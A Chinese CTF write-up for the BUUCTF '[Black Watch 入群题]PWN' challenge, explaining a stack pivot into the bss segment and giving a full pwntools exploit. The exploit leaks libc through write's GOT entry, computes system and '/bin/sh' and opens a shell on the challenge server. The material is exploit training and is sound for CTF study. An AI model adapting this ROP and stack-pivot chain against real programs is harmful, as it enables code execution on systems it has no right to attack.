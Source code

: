 ```yaml
---
title: BUU刷题 [Black Watch 入群题]PWN-栈迁移
description: BUU刷题 [Black Watch 入群题]PWN-栈迁移-writeup
date: 2021-08-07 15:07:56
categories:
 - PWN
tags:
---
```


# BUU刷题 [Black Watch 入群题]PWN-栈迁移

## IDA分析

![image-20220222141319826](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/image-20220222141319826.png)

主要功能点就在vul_function()里，第一个read，s在bss段里，虽然可以输入0x200，没法溢出；第二个read只能输入0x20字节，只能覆盖ebp和返回地址，这里发现s在bss段里而且可以输入挺多字节，可以考虑栈迁移到bss段里，但是这题没有提供system和/bin/sh，我们还需要构造ROP链泄露libc，栈迁移知识看我另一篇笔记。

## EXP

```python
plt_write = elf.sym['write']
got_write = elf.got['write']
main = elf.sym['main']

payload = 'aaaa' + p32(plt_write) + p32(main) + p32(1) + p32(got_write) + p32(4)
p.sendafter('name?',payload)

payload1 = 'a'*0x18 + p32(bss) + p32(leave_ret)
p.sendafter('say?',payload1)
```

![image-20220222141304741](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/image-20220222141304741.png)

之后就是简单ROP了，完整EXP，掌握了栈迁移就很简单了

```python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'

# p = process('./spwn')
p = remote('node4.buuoj.cn','26502')
elf = ELF('./spwn')

bss = 0x0804A300
leave_ret = 0x08048511

plt_write = elf.sym['write']
got_write = elf.got['write']
main = elf.sym['main']

payload = 'aaaa' + p32(plt_write) + p32(main) + p32(1) + p32(got_write) + p32(4)
p.sendafter('name?',payload)

payload1 = 'a'*0x18 + p32(bss) + p32(leave_ret)
p.sendafter('say?',payload1)

write_addr = u32(p.recv(4))
print(hex(write_addr))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sys_addr = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')

payload = 'aaaa' + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh)
p.sendafter('name?',payload)

payload = 'a'*0x18 + p32(bss) + p32(leave_ret)
p.sendafter('say?',payload1)

p.interactive()
```